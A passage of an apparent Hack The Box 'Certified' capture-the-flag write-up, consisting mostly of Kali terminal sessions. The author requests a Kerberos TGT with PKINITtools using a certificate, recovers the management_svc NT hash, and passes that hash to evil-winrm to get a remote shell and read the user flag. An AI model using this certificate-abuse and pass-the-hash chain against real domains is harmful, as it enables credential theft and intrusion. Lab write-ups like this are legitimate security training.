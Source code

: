 
```shell
──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ python3 ./PKINITtools/gettgtpkinit.py certified.htb/management_svc -cert-pfx management_svc_cert.pfx -pfx-pass mhzjFxClRQCixnbEXNG7 management_svc.ccache
2024-11-12 18:45:25,152 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2024-11-12 18:45:25,173 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2024-11-12 18:45:41,575 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2024-11-12 18:45:41,575 minikerberos INFO     888538e74d18acb091591f31ef9047a412c5caf9c9f6c5895f2eebf0345bd9f8
INFO:minikerberos:888538e74d18acb091591f31ef9047a412c5caf9c9f6c5895f2eebf0345bd9f8
2024-11-12 18:45:41,577 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
                                                                                                                                                                            
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ export KRB5CCNAME=management_svc.ccache 
                                                                                                                                                                            
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ python3 ./PKINITtools/getnthash.py -key 888538e74d18acb091591f31ef9047a412c5caf9c9f6c5895f2eebf0345bd9f8 'certified.htb/management_svc'                  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
/home/frodo/hack-the-box/certified/./PKINITtools/getnthash.py:144: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow()
/home/frodo/hack-the-box/certified/./PKINITtools/getnthash.py:192: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```
User flag is found at `C:\Users\management_svc\Desktop\user.txt`
```shell
                                                                                                                                                                           
┌──(frodo㉿kali)-[~/hack-the-box/certified]
└─$ evil-winrm -i 10.129.231.186 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> cat C:\Users\management_svc\Desktop\user.txt
6146fec2d009fda4c7303e2b70e57f67

```
